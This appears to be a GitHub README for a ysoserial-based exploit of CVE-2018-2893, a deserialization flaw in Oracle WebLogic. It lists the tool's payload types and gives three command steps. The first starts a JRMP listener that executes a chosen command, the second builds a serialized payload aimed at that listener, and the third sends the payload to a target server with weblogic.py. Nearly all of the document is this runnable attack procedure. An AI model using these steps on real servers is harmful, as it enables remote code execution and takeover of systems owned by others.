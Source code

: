 # CVE-2018-2893
Show payload：
`java -jar ysoserial-cve-2018-2893.jar`

```
WHY SO SERIAL?
Usage: java -jar ysoserial-cve-2018-2893.jar [payload] '[command]'
Available payload types:
     Payload     Authors   Dependencies
     -------     -------   ------------
     JRMPClient  @mbechler
     JRMPClient2 @mbechler
     JRMPClient3 @mbechler
     JRMPClient4 @mbechler
     Jdk7u21     @frohoff
```
## Step 1
`java -cp ysoserial-cve-2018-2893.jar ysoserial.exploit.JRMPListener [ListenerPort] Jdk7u21 'calc'`

## Step 2
`java -jar ysoserial-cve-2018-2893.jar  JRMPClient4  "[ListenerIP]:[ListenerPort]"  >  poc.ser`

## Step 3

`python weblogic.py [targetIP]:[targetPort] poc.ser`
